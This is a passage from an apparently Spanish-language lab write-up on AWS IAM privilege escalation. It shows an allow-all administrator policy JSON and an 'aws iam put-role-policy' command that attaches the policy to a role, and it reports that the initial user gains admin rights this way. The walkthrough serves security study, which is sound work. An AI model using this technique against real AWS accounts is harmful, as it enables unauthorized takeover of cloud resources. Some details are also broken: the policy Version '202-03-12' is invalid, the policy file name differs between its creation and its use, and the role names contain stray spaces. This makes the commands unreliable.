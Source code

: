 Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil.

### Explotación

Como en el caso anterior, se tiene que generar una política para agregar a un rol

{% code title="admin_policy.json" overflow="wrap" %}
```
{
    "Version": "202-03-12",
    "Statement": [
        {
            "Sid": "PermitirTodo",
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```
{% endcode %}

Finalmente, se tiene que conocer el nombre del rol al cual se le va asignar la política:

{% code overflow="wrap" %}
```
aws iam put-role-policy --role-name privesc12- PutRolePolicy-role --policy-name politica-PrivEsc3- Spartan --policy-document file://admin_politica.json --profile privesc12
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

Si revisamos ahora las políticas insertadas a nuestro rol, lograremos apreciar que hemos adjuntado exitosamente la política de administrador a nuestro usuario inicial por medio del rol.

